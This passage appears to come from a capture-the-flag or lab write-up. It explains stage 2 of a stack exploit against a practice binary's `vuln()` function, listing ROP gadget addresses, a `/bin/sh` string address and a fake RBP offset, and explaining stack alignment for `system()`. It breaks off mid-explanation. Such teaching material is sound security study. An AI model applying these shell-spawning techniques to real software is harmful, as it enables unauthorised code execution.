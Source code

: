 **At this point:**
- ✅ We know `buf_addr` (e.g., 0x7ffd8a3c2e90)
- ✅ vuln() is running again
- ✅ read() is waiting for our exploit payload

---

## Stage 2: RBP Manipulation Exploit

### Finding Required Addresses

```python
ret_gadget = 0x40101a      # Just 'ret' instruction
system_mid = 0x401218      # Middle of win() (skips checks)
binsh_addr = 0x402008      # Address of "/bin/sh" string
```

**How we found 0x40101a:**
```asm
0000000000401000 <_init>:
  ...
  40101a:	c3                   	ret    ← Just a 'ret' instruction!
```

### Why Do We Need the Ret Gadget?

**Question:** Why do we need `ret_gadget = 0x40101a`?

**Answer:** For **stack alignment**! Modern `system()` requires the stack pointer (RSP) to be 16-byte aligned.

```
Without ret gadget:
  After vuln() returns: RSP = new_buf + 0x50
  0x50 % 16 = 8  ❌ Not aligned!
  system() crashes with "movaps" error!

With ret gadget (one extra ret):
  After ret gadget: RSP = new_buf + 0x58
  0x58 % 16 = 0  ✅ Aligned!
  system() works!
```

The extra `ret` instruction:
1. Pops one value from stack (RSP += 8)
2. Jumps to that value
3. This adds 8 bytes to RSP, achieving 16-byte alignment

### Calculating Fake RBP

```python
fake_rbp = buf_addr + 0x70
```

**Why do we need fake RBP?**
